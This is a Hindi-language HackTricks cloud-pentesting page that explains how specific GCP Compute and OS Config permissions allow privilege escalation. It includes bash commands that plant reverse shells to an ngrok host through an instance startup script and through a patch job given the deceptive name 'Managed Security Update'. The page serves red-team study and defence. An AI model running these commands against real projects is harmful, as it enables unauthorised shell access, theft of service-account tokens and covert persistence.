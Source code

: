 # GCP - कंप्यूट प्राइवेस्क

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ जीरो से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें द्वारा PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## कंप्यूट

कंप्यूट और VPC (नेटवर्क) के बारे में अधिक जानकारी के लिए GCP में जांचें:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
ध्यान दें कि सभी प्रिविलेज इस्केलेशन अटैक्स को करने के लिए जो मेटाडेटा को संशोधित करने की आवश्यकता होती है (जैसे नए उपयोगकर्ताओं और SSH कुंजियों को जोड़ना), उसके लिए **आपके पास इंस्टेंस से जुड़े SA पर `actAs` अनुमतियाँ होनी चाहिए**, भले ही SA पहले से ही जुड़ा हो!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

इस अनुमति के साथ आप एक इंस्टेंस की **मेटाडेटा** जानकारी को **संशोधित** कर सकते हैं और एक उपयोगकर्ता के **अधिकृत कुंजियाँ बदल सकते हैं**, या **सुडो की अनुमति वाले नए उपयोगकर्ता बना सकते हैं**। इसलिए, आप किसी भी वीएम इंस्टेंस में SSH के माध्यम से exec कर सकेंगे और वहाँ से GCP सेवा खाता चुरा सकेंगे।\
सीमाएँ:

* ध्यान दें कि डिफ़ॉल्ट रूप से वीएम इंस्टेंस में चल रहे GCP सेवा खातों का **बहुत ही सीमित दायरा** होता है
* आपको **SSH सर्वर से संपर्क करने की क्षमता** होगी

इस अनुमति को कैसे शोषण करने के बारे में अधिक जानकारी के लिए जांचें:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

आप नए स्टार्टअप स्क्रिप्ट जोड़कर और इंस्टेंस को रिबूट करके भी इस हमला कर सकते हैं:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

यह अनुमति **पिछली अनुमति के समान विशेषाधिकार** प्रदान करती है लेकिन पूरे परियोजना के बजाय विशेष उदाहरणों के लिए। **पिछले खंड के लिए एक ही शोषण और सीमाएं लागू होती हैं**।

### `compute.instances.setIamPolicy`

इस प्रकार की अनुमति आपको **पिछली अनुमतियों के साथ खुद को एक भूमिका प्रदान करने** और उनका दुरुपयोग करके विशेषाधिकारों को उन्नत करने की अनुमति देगी।

### **`compute.instances.osLogin`**

यदि **इंस्टेंस में OSLogin सक्षम है**, तो इस अनुमति के साथ आप बस **`gcloud compute ssh [INSTANCE]`** चला सकते हैं और इंस्टेंस से कनेक्ट कर सकते हैं। आपके पास इंस्टेंस के अंदर **रूट विशेषाधिकार नहीं होंगे**।

{% hint style="success" %}
इस अनुमति के साथ वीएम इंस्टेंस के अंदर सफलतापूर्वक लॉगिन करने के लिए, आपको वीएम से जुड़े एसए के ऊपर `iam.serviceAccounts.actAs` अनुमति होनी चाहिए।
{% endhint %}

### **`compute.instances.osAdminLogin`**

यदि **इंस्टेंस में OSLogin सक्षम है**, तो इस अनुमति के साथ आप बस **`gcloud compute ssh [INSTANCE]`** चला सकते हैं और इंस्टेंस से कनेक्ट कर सकते हैं। आपके पास इंस्टेंस के अंदर **रूट विशेषाधिकार होंगे**।

{% hint style="success" %}
इस अनुमति के साथ वीएम इंस्टेंस के अंदर सफलतापूर्वक लॉगिन करने के लिए, आपको वीएम से जुड़े एसए के ऊपर `iam.serviceAccounts.actAs` अनुमति होनी चाहिए।
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

एक आवंटित सेवा खाते के साथ एक वर्चुअल मशीन बनाना संभव है और सेवा खाते के टोकन को चुरा सकते हैं जिससे आप उसे उन्नत करने के लिए मेटाडेटा तक पहुंच सकते हैं।

इस विधि के लिए शोषण स्क्रिप्ट [यहाँ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py) मिल सकता है।

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

यदि आपके पास **`osconfig.patchDeployments.create`** या **`osconfig.patchJobs.exec`** अनुमतियाँ हैं तो आप एक [**पैच जॉब या डिप्लॉयमेंट**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) बना सकते हैं। यह आपको परियोजना के सभी कंप्यूट इंस्टेंस पर साइडवेज़ में चलने और कोड क्रियान्वयन हासिल करने की स्वीकृति देगा।

ध्यान दें कि इस समय आपको इंस्टेंस से जुड़े एसए के ऊपर `astAs` अनुमति की आवश्यकता नहीं है।

इसे मैन्युअल रूप से शोषण करना चाहते हैं तो आपको या तो [**पैच जॉब**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) बनाने की आवश्यकता है **या** [**डिप्लॉयमेंट**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)**।**\
पैच जॉब चलाएं:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

पैच डिप्लॉयमेंट डिप्लॉय करने के लिए:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
उपकरण [patchy](https://github.com/rek7/patchy) पिछले में इस गलत विन्यास का शोषण करने के लिए प्रयोग किया जा सकता था (लेकिन अब यह काम नहीं कर रहा है)।

**एक हमलावार इसे स्थिरता के लिए भी दुरुपयोग कर सकता है।**

### `compute.machineImages.setIamPolicy`

**अपने आप को अतिरिक्त अनुमतियाँ देना** compute इमेज को।

### `compute.snapshots.setIamPolicy`

**अपने आप को अतिरिक्त अनुमतियाँ देना** डिस्क स्नैपशॉट को।

### `compute.disks.setIamPolicy`

**अपने आप को अतिरिक्त अनुमतियाँ देना** डिस्क को।

### पहुंच स्कोप को उलटना

इस लिंक का पालन करते हुए आप कुछ [**विचार देखने के लिए कोशिश कर सकते हैं**](../)।

### GCP कंप्यूट इंस्टेंस में स्थानिक विशेषाधिकार उन्नति

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## संदर्भ

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी कंपनी का **विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos को PR जमा करके।

</details>
